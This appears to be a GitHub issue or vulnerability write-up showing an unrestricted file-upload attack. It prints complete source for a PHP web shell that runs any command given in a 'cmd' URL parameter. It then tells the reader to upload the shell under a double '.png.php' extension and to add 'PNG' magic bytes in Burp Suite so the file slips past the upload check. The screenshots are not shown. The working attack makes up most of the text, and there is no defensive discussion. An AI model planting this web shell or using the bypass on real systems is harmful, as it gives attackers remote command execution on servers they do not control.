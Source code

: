 ![image](https://github.com/user-attachments/assets/754886a5-3137-4d14-8771-a5b589b05f92)
![image](https://github.com/user-attachments/assets/90ac8868-62a9-429e-bead-af039a362976)

use this code:

//<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>//
now you create a new file that has name <yournamefile>.png.php
and then upload

now in your burpsuite ![image](https://github.com/user-attachments/assets/d2938bb8-ced7-4d92-aad4-94593c8ebfde)

add "PNG"
![image](https://github.com/user-attachments/assets/02f215e4-e4c9-4a50-97f1-765a762b2b60)
![image](https://github.com/user-attachments/assets/90295bc5-c35c-4884-92c5-a1767473178b)

